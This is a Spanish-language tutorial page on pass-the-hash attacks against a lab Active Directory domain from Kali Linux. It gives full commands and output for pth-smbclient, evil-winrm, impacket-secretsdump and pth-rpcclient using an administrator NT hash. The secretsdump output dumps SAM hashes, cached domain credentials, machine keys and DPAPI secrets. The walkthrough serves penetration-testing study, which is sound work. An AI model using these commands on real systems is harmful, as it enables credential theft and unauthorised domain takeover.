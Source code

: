 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Linux

Si queremos realizar lo mismo de antes, pero desde `linux` lo haremos con una herramienta que viene por defecto en `kali`, suponiendo que tenemos ya el `hash` del `administrador` o de cualquier tipo de usuario con el que queremos realizar ese `pth`, haremos lo siguiente:

```shell
pth-smbclient //192.168.5.5/c$ -U Administrator --pw-nt-hash a87f3a337d73085c45f9416be5787d86 -W corp.local
```

Info:

```
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat May  8 04:20:24 2021
  Documents and Settings          DHSrn        0  Sun Jan  5 05:22:02 2025
  DumpStack.log.tmp                 AHS    12288  Tue Jan 21 03:14:12 2025
  pagefile.sys                      AHS 536870912  Tue Jan 21 03:14:12 2025
  PerfLogs                            D        0  Sat May  8 04:20:24 2021
  Program Files                      DR        0  Sun Jan  5 05:28:08 2025
  Program Files (x86)                 D        0  Sat May  8 05:39:35 2021
  ProgramData                       DHn        0  Sat Jan 11 10:12:12 2025
  Recovery                         DHSn        0  Sun Jan  5 05:22:02 2025
  Shares                              D        0  Mon Jan  6 07:06:47 2025
  System Volume Information         DHS        0  Sun Jan  5 06:12:17 2025
  Users                              DR        0  Sun Jan  5 05:28:05 2025
  Windows                             D        0  Tue Jan  7 14:12:54 2025

                15644159 blocks of size 4096. 12751911 blocks available
```

Vemos que hemos conseguido conectarnos al `DC` en el recurso compartido del `C$` como el `administrador` por lo que tendriamos acceso al `DC` desde `kali` como el usuario `Administrador` del dominio.

Esto mismo tambien lo podemos realizar mediante el protocolo `WinRM` (Protocolo de gestion remota, que suele estar activo en casi todas las infraestructuras de empresas de `Active Directory`), para ello antes activaremos este mismo protocolo en nuestra maquina `Windows` para que este activo y configurado con un comando, por lo que nos iremos a nuestro `WS01`, abriremos una `PowerShell` como `administrador` local y ejecutaremos lo siguiente:

```powershell
winrm quickconfig
```

Info:

```
WinRM no está configurado para recibir solicitudes en este equipo.
Se deben realizar estos cambios:

Inicie el servicio WinRM.
Establezca el tipo de servicio WinRM en inicio automático aplazado.

¿Desea realizar estos cambios [y/n]? y

WinRM se ha actualizado para recibir solicitudes.

Se cambió el tipo de servicio WinRM correctamente.
Servicio WinRM iniciado.
WinRM no está configurado para permitir acceso remoto al equipo para administración.
Se deben realizar estos cambios:

Habilitar la excepción de firewall WinRM.

¿Desea realizar estos cambios [y/n]? y

WinRM se actualizó para administración remota.

Excepción de firewall WinRM habilitada.
```

Y con esto ya tendriamos nuestro `WinRM` activado correctamente.

Ahora si nos vamos al `kali` y utilizamos una herramienta muy famosa llamada `evil-winrm` que no vendra por defecto en `kali`, podremos acceder de forma remota para gestionar un equipo mediante el protocolo `evil-winrm`, vamos a instalar la herramienta antes de todo.

```shell
sudo gem install evil-winrm
```

Y con esto ya tendriamos instalada la herramienta.

Vamos a probar a entrar en el equipo `WS01` de forma remota como el usuario `Administrador` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -p Passw0rd
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Y con esto veremos que funciona correctamente, por lo que nos podemos conectar a dicho equipo.

Pero como nosotros no tenemos la contraseña, solo tenemos el `hash` del `Administrador` podremos hacer un `pth` con `winrm` de la siguiente forma:

```shell
evil-winrm -i 192.168.5.208 -u Administrator -H a87f3a337d73085c45f9416be5787d86
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
corp\administrator
```

Y con esto veremos que con el `hash` tambien nos dejo entrar.

Con la herramienta `impacket` se puede hacer lo mismo, con el `hash` podremos autenticarnos como el `administrador` para realizar cosas como el mismo.

```shell
impacket-secretsdump Administrator@192.168.5.208 -hashes :a87f3a337d73085c45f9416be5787d86
```

Hay que indicarselo con un formato especial para la herramienta poniendo los `:` por delante del `hash`.

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 09:22:18)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-20 09:23:12)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

Y vemos que nos vuelva bien la `SAM` como el usuario `Administrador`.

Mediante el `rpcclient` tambien podremos realizar este `pth` de la siguiente forma:

```shell
pth-rpcclient -U corp/administrator%00000000000000000000000000000000:a87f3a337d73085c45f9416be5787d86 //192.168.5.208
```

En este caso como tiene que tener un formato en concreto el `hash` pero el nuestro es un `hash` simple tendremos que rellenarlo con `32` ceros por delante y despues de los `:` poner el `hash` del `administrador`.

Info:

```
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
rpcclient $>
```

Y aqui podremos ver que hemos accedido de forma correcta mediante el protocolo `rpcclient` haciendo un `pth`.
